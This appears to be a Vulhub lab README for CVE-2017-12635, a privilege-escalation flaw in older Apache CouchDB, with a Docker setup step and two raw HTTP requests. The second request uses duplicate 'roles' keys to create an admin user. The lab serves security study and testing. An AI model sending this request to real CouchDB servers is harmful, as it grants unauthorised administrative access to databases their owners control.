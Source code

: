 # Apache Couchdb Remote Privilege Escalation Vulnerability (CVE-2017-12635)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit `_users` documents with duplicate keys for `roles` used for access control within the database, including the special case `_admin` role, that denotes administrative users.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Setup Environment

Compile and start environment.

```
docker-compose up -d
```

After the environment is started, browser ``http://your-ip:5984/_utils/`` to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.

## Exploit

This is a normal request to add a user.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

As you can see, a 403 error is returned: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, which means only administrator can use the endpoint.

![](1.png)

To bypass the restriction by sending a request containing duplicate **roles**.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created a user `vulhub`, with the password `vulhub`.

![](2.png)

Log in.

![](3.png)
